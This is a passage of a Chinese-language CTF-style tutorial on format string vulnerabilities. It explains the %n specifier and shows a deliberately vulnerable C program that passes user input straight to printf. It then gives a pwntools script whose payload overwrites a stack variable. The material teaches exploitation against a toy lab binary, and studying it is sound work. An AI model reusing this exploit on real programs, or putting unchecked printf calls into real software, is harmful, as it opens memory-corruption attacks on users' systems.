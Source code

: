 *我们不能直接在命令行输入 \ x0c\xa0\x04\x08%4$s 这是因为虽然前面的确实是 printf@got 的地址，但是，scanf 函数并不会将其识别为对应的字符串，而是会将 \,x,0,c 分别作为一个字符进行读入。*

## 覆盖内存

%n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

```c
 /* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

### 覆盖栈内存 

#### 确定覆盖地址

首先，我们自然是来想办法知道栈变量 c 的地址。由于目前几乎上所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们这里故意输出了 c 变量的地址。

#### 确定相对偏移 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594805019039-cb49014d-0104-41e5-bf0e-7ad0ee3cc223.png)

偏移为6

#### 进行覆盖 

这样，第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。payload 如下

```python
[addr of c]%12d%6$n
def forc():
    sh = process('./overflow')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%12d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```
